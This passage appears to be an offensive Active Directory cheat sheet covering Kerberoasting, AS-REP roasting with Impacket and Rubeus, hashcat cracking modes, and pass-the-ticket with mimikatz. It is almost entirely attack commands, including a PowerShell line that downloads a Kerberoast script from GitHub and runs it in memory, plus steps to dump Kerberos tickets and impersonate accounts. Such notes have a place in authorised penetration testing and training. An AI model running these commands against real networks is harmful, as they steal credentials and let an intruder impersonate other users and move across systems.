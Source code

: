   And then gain password hash

  ```powershell
  PS> iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') 
  PS> Invoke-Kerberoast -OutputFormat hashcat |fl
  ```

  Then brute-force `hashcat -m 13100 -a 0 hash.txt <wordlist> --force`

- query ASReproastable accounts w/Impacket 

  ```bash
  GetNPUsers.py <domain>/<user>
  ```

  

### AS-REP Roasting w/ Rubeus

```powershell
Rubeus.exe asreproast
```

Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User...

hashcat mode 18200



### Pass the Ticket w/ mimikatz

minikatz is very good post-exploitation tool

#### Prepare Mimikatz & Dump Tickets

Ensure outputs [output '20' OK] if it does not that means you do not have the administrator  privileges to properly run mimikatz

```bash
> mimikatz.exe
privilege::debug
```

export all of the base64 encoded .kirbi tickets into the directory that you are currently in

```bash
sekurlsa::tickets /export
```

#### Pass the Ticket w/ Mimikatz

run this command inside of  mimikatz with the ticket that you harvested from earlier. It will cache  and impersonate the given ticket

```bash
kerberos::ptt <ticket>
```

exit minikaz.

verifying that we successfully impersonated the ticket by listing our cached tickets.
